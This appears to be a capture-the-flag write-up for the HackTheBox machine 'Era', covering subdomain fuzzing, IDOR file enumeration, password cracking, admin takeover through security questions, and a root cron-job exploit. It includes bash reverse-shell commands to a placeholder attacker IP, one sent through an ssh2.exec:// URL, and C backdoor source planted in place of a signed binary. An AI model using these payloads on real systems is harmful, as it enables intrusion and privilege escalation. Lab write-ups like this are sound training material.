 # Era

```
Difficulty: Medium
Operating System: Linux
Hints: True
```

**⚠️ Notice:
This challenge is currently active on HackTheBox.
In accordance with HackTheBox's content policy, this writeup will be made publicly available only after the challenge is retired.**

<!--


#### 🏁 Summary of Attack Chain

| Step | User / Access                  | Technique Used | Result |
|:---|:---|:---|:---|
| 1 | (Local) | Nmap, Subdomain Fuzzing | Identified `era.htb` and found subdomain `file.era.htb` via `ffuf`. |
| 2 | (Web) | Dirsearch, User Registration | Discovered `register.php`, allowing for new user account creation on `file.era.htb`. |
| 3 | (Web) | IDOR & File Download | Used `burpsuite` Intruder to brute-force file IDs, finding a `site-backup` archive. |
| 4 | (Local) | Archive Analysis & Hash Cracking | Extracted a `filedb.sqlite` database from the backup and cracked two user passwords (`eric:amXXXXa`, `yuri:muXXXXX`) using `john`. |
| 5 | (Web) | LFI & SSH2 Wrapper Exploit | Analyzed `download.php` source code, found an admin-only feature vulnerable to LFI, and used `ssh2.exec://` to get a reverse shell. |
| 6 | yuri -> eric | Shell Escalation & User Enumeration | Initially gained a shell as `yuri`, then switched to `eric` using the cracked password to retrieve `user.txt`. |
| 7 | eric | Cron Job Enumeration (pspy) | Identified a `root` owned cron job that periodically executed a binary named `monitor` in `/opt/AV/periodic-checks`. |
| 8 | eric | Binary Analysis & Code Signing | Discovered the cron job was checking a `.text_sig` section of the `monitor` binary for integrity. |
| 9 | eric -> root | Malicious Binary Replacement | Created a malicious `monitor` binary, signed it with the correct key to bypass the integrity check, and replaced the original binary. |
| 10 | root | Root Shell | The cron job executed the malicious `monitor` binary as `root`, granting a reverse shell and the `root.txt` flag. |



### Initial Enumeration

An initial nmap scan did not reveal anything particularly unusual, showing common ports like 21 (FTP) and 80 (HTTP). We added era.htb to the /etc/hosts file.

### Foothold and user.txt

Since the main website had no obvious interactive features, we moved to subdomain enumeration. Using ffuf with a large wordlist, we successfully discovered the file.era.htb subdomain.

![Web ](Pictures/htb_Era_1stWeb.png)

Bash

```
ffuf -w /path/to/top100ksubdomain.txt -H  "Host: FUZZ.era.htb" -u http://era.htb -t 200 -fs 154
```
We added file.era.htb to our /etc/hosts file and then performed a directory scan with gobuster.

![File ](Pictures/htb_Era_file2ndWeb.png)




Bash

```
gobuster dir -u http://file.era.htb/ -w /usr/share/wordlists/dirb/common.txt -t 50 --exclude-length 6765 -x php
```



This scan revealed several interesting PHP pages, including register.php, login.php, download.php, and upload.php.

![File ](Pictures/htb_Era_file2ndWeb.png)

 We registered a new user and uploaded a file, which provided us with a download link containing an ID parameter (e.g., download.php?id=...). This suggested a potential Insecure Direct Object Reference (IDOR) vulnerability.

![Burp ](Pictures/htb_Era_ID_Identified.png)
![54 ](Pictures/htb_Era_ID_54Identified.png)


Using burpsuite's Intruder to brute-force the id parameter, we discovered two valid IDs (54 and 150) that returned different content. One of these, ID 54, downloaded a file named site-backup-30-08-24.zip.

![150 ](Pictures/htb_Era_ID_150_Identified.png)

![Database](Pictures/htb_Era_fuileupnzip.png)

![File](Pictures/htb_Era_sqlitefile.png)




After extracting the backup, we found a SQLite database file named filedb.sqlite. Dumping the database's contents revealed a users table with hashed passwords and security questions for six users, including an admin_eXXXXXXXXXaa account.

![Database](Pictures/htb_Era_Database.png)


#### Database ( User and Pass )

There is a database file filedb.sqlite that can be used. You can open it directly in Kali and find that there is a user table


We extracted the hashes and used john with the rockyou.txt wordlist to crack the passwords for eric and yuri.

Bash

```
john --show hash.txt
eric:amXXXXa
yuri:muXXXXX
```

![Cred ](Pictures/htb_Era_user_pass.png)

Next, we analyzed the download.php source code from the backup. 

```
<?php
session_start();

// Function to contact the database using SQLite3 prepared statements
function contactDB($query, $params = [], $type = 0) {
    global $db;

    try {
        $stmt = $db->prepare($query);

        $paramIndex = 1;
        foreach ($params as $param) {
            $stmt->bindValue($paramIndex, $param, getParamType($param));
            $paramIndex++;
        }

        $result = $stmt->execute();

        return ($type == 0) ? $result->fetchArray(SQLITE3_NUM) : $result->fetchArray(SQLITE3_ASSOC);

    } catch (Exception $e) {
        error_log("Database error: " . $e->getMessage());
        return false;
    }
}

// Helper for parameter types
function getParamType($param) {
    if (is_int($param)) return SQLITE3_INTEGER;
    if (is_float($param)) return SQLITE3_FLOAT;
    if (is_null($param)) return SQLITE3_NULL;
    return SQLITE3_TEXT;
}

// Connect to SQLite
$db = new SQLite3('filedb.sqlite');

if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $username = $_POST['username'];
    $answer1 = $_POST['answer1'];
    $answer2 = $_POST['answer2'];
    $answer3 = $_POST['answer3'];

    $query = "SELECT user_id, security_answer1, security_answer2, security_answer3 FROM users WHERE user_name = ?";
    $user_data = contactDB($query, [$username], 1);

    if ($user_data) {
        if (
            $answer1 === $user_data['security_answer1'] &&
            $answer2 === $user_data['security_answer2'] &&
            $answer3 === $user_data['security_answer3']
        ) {
            $_SESSION['eravalid'] = true;
            $_SESSION['erauser'] = $user_data['user_id'];
            $operation_successful = true;
        } else {
            $error_message = "Incorrect answers. Please try again.";
        }
    } else {
        $error_message = "User not found.";
    }
}
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Log in with Security Questions</title>
    <link href="https://fonts.googleapis.com/css2?family=Inter:wght@400;600&display=swap" rel="stylesheet" />
    <style>
        html, body {
            margin: 0;
            padding: 0;
            height: 100%;
            font-family: 'Inter', Arial, sans-serif;
            background: linear-gradient(120deg, #e0e7ff 0%, #f8fafc 100%);
            display: flex;
            align-items: center;
            justify-content: center;
        }

        .container {
            background-color: #fff;
            max-width: 500px;
            width: 100%;
            border-radius: 12px;
            padding: 2.5rem 2rem;
            box-shadow: 0 8px 24px rgba(0, 0, 0, 0.1);
        }

        h1 {
            font-size: 1.65rem;
            font-weight: 700;
            color: #1d3557;
            text-align: center;
            margin-bottom: 0.5rem;
        }

        p.description {
            text-align: center;
            color: #555;
            font-size: 0.95rem;
            margin-bottom: 1.5rem;
        }

        form {
            display: flex;
            flex-direction: column;
        }

        .form-group {
            margin-bottom: 1.2rem;
        }

        label {
            font-weight: 500;
            color: #374151;
            margin-bottom: 0.4rem;
            display: block;
            font-size: 1rem;
        }

        input[type="text"] {
            width: 100%;
            padding: 0.75rem 1rem;
            border: 1px solid #d1d5db;
            border-radius: 5px;
            background-color: #f9fafb;
            font-size: 1.05rem;
            transition: border 0.2s, box-shadow 0.2s;
            box-sizing: border-box;
        }

        input.answer-input {
            width: 90%;
            margin: 0 auto;
            display: block;
            text-align: center;
        }

        input[type="text"]:focus {
            border-color: #6366f1;
            background-color: #fff;
            outline: none;
            box-shadow: 0 0 0 2px rgba(99, 102, 241, 0.3);
        }

        input[type="submit"] {
            padding: 0.85rem;
            background: linear-gradient(90deg, #6366f1, #2563eb);
            color: white;
            font-size: 1.05rem;
            font-weight: 600;
            border: none;
            border-radius: 5px;
            cursor: pointer;
            transition: background 0.3s ease, box-shadow 0.3s ease;
            margin-top: 1rem;
        }

        input[type="submit"]:hover {
            background: linear-gradient(90deg, #2563eb, #6366f1);
            box-shadow: 0 4px 14px rgba(99, 102, 241, 0.2);
        }

        .error, .success {
            max-width: 320px;
            margin: 0 auto 1.2rem;
            padding: 0.9rem 1.1rem;
            border-radius: 6px;
            font-weight: 500;
            text-align: center;
        }

        .error {
            background-color: #fee2e2;
            color: #b91c1c;
            border: 1px solid #fca5a5;
        }

        .success {
            background-color: #d1fae5;
            color: #065f46;
            border: 1px solid #6ee7b7;
            font-weight: 600;
        }

        @media (max-width: 500px) {
            .container {
                padding: 2rem 1rem;
            }

            input.answer-input {
                width: 100%;
            }
        }
    </style>
    <script>
        function showSuccessAndRedirect() {
            const successMessage = document.getElementById('successMessage');
            if (successMessage) {
                successMessage.style.display = 'block';
                setTimeout(() => {
                    window.location.href = 'manage.php';
                }, 1000);
            }
        }
    </script>
</head>
<body>
    <div class="container">
        <h1>Log in Using Security Questions</h1>
        <p class="description">
            If you’ve forgotten your password, you can log in by answering your security questions instead.
        </p>
        <?php
        if (isset($error_message)) {
            echo "<div class='error'>" . htmlspecialchars($error_message) . "</div>";
        }
        if (isset($operation_successful) && $operation_successful) {
            echo "<div id='successMessage' class='success'>Login successful. Redirecting…</div>";
            echo "<script>showSuccessAndRedirect();</script>";
        }
        ?>
        <form action="<?php echo htmlspecialchars($_SERVER["PHP_SELF"]); ?>" method="post" autocomplete="off">
            <div class="form-group">
                <label for="username">Username</label>
                <input type="text" id="username" name="username" required autocomplete="username" class="answer-input" />
            </div>
            <div class="form-group">
                <label for="question1">What is your mother's maiden name?</label>
                <input type="text" id="question1" name="answer1" required class="answer-input" />
            </div>
            <div class="form-group">
                <label for="question2">What was the name of your first pet?</label>
                <input type="text" id="question2" name="answer2" required class="answer-input" />
            </div>
            <div class="form-group">
                <label for="question3">In which city were you born?</label>
                <input type="text" id="question3" name="answer3" required class="answer-input" />
            </div>
            <input type="submit" value="Verify and Log In" />
        </form>
    </div>
</body>
</html>
```


**We found a vulnerability in the administrator-only functionality ($_SESSION['erauser'] === 1). This feature allowed for a Server-Side Request Forgery (SSRF) via PHP stream wrappers, specifically ssh2.exec://.**

To exploit this, we needed to log in as the administrator. The reset.php and security_login.php files from the backup revealed that the admin password could be reset by answering security questions. The filedb.sqlite dump provided the correct answers for the admin account (Maria, Oliver, Ottawa).

![Admin login](Pictures/htb_Era_admin_login.png)


After the modification, log in to security_login.php again. 

![Admin login](Pictures/htb_Era_admin_login_ad.png)

If you successfully log in as admin, you can go back to download.php to find a way to exploit it.


#### PHP wrapper -> RCE

I have previously analyzed that there may be the use of pseudo-protocols, but after my attempts, the following URLs will not be directly echoed

URL

```
http://file.era.htb/?id=1&show=true&format=php://filter/read=convert.base64-encode/resource=/etc/passwd
```

After trying, I found that Yuri's account can log in to the ftp service


![FTP login](Pictures/htb_Era_ftp.png)

The php8.1_conf directory is as follows

![FTP_DIR](Pictures/htb_Era_ftp_dir.png)

I have previously analyzed that there may be the use of pseudo-protocols, but after my attempts, the following URLs will not be directly echoed

After trying, I found that Yuri's account can log in to the ftp serviceThe php8.1_conf directory is as follows

Note that there is an ssh2 extension, for usage refer to the PHP manual: PHP: Supported Protocols and Wrappers - Manual

ssh2.shell://user:pass@example.com:22/xterm
ssh2.exec://user:pass@example.com:22/usr/local/bin/somecmd
ssh2.tunnel://user:pass@example.com:22/192.168.0.1:14
ssh2.sftp://user:pass@example.com:22/path/to/filename
Try the following payload to rebound the shell. Since the URL is encoded in base64, try to avoid the presence of plus signs (which will be parsed as spaces). The solution is to insert a plus sign before the base64 encoding to eliminate the encoding.


After logging in as the administrator, we crafted a malicious URL to trigger a reverse shell using the ssh2.exec:// wrapper with eric's credentials. The URL executed a base64-encoded bash command to connect to our local listener.


Bash

```
http://file.era.htb/download.php?id=54&show=true&format=ssh2.exec://eric:amXXXXXa@127.0.0.1/bash%20-c%20"bash%20-i%20>&%20/dev/tcp/<YOUR_IP>/4444%200>&1";
```

Attacker
```
nc -lnvp 4444
```
This gave us a shell as the yuri user. We then used the cracked password to switch to the eric user and successfully retrieved user.txt.

![User flag ](Pictures/htb_Era_reverse_linp_eric_user.png)


### Privilege Escalation to Root


Our path to root started with a thorough post-exploitation enumeration. After gaining a shell as the eric user, we uploaded and ran linpeas.sh. The script highlighted a suspicious binary named monitor running as root. Looking at the processes with ps aux, we confirmed that monitor was part of a cron job executed by root.

![Root ](Pictures/htb_Era_reverse_linp_eric_user.png)

Upload linpeas.sh and find that the current user has a special file

Run pspy to view the process status

The cron job's script, /root/initiate_monitoring.sh, also used objcopy to verify a .text_sig section of the monitor binary. This indicated that we could replace the monitor binary with our own malicious code, as long as we also signed it correctly.

CRON -f -P: This is the scheduled task daemon process , indicating that the scheduled task has been triggered.

bash -c echo > /opt/AV/periodic-checks/status.log: The scheduled task cleared a log file.

objcopy --dump-section .text_sig=... /opt/AV/periodic-checks/monitor: /opt/AV/periodic-checks/monitorExtract segments from this binary file .text_sig, possibly for integrity verification or signature checking.
/root/initiate_monitoring.shA large number of concurrent executions (PID 25204–25213): This is the key, indicating that CRON triggered a script /root/initiate_monitoring.sh, but it was executed multiple times in a very short period of time .

Therefore, it can be analyzed that this file will be executed regularly, and the text_sig segment will be checked for changes. What we can do is to modify the file content to elevate privileges and copy the text_sig segment.

We compiled a custom C program that would give us a root shell.


**mal.c**

```
#include <unistd.h>
int main() {
    setuid(0); setgid(0);
    execl("/bin/bash", "bash", "-c", "bash -i >& /dev/tcp/<YOUR_IP>/1337 0>&1", NULL);
    return 0;
}
```

We compiled it statically:

Bash

```
gcc mali.c -o backdoor
```

![Root ](Pictures/htb_Era_malic_backdoor.png)

Bash

```
objcopy --dump-section .text_sig=text_sig /opt/AV/periodic-checks/monitor
objcopy --add-section .text_sig=text_sig backdoor
cp backdoor monitor

```
Finally, we uploaded our newly signed monitor binary to the /opt/AV/periodic-checks directory, replacing the original.

Bash


```
chmod +x monitor
```

The next time the cron job ran, our malicious monitor binary was executed as root. We caught the reverse shell on our listener.

Bash

```
nc -lnvp 1337
```

![Root Flag](Pictures/htb_Era_Root_flag.png)

This gave us a root shell, and we successfully retrieved root.txt.




**Pwned! Era**

-->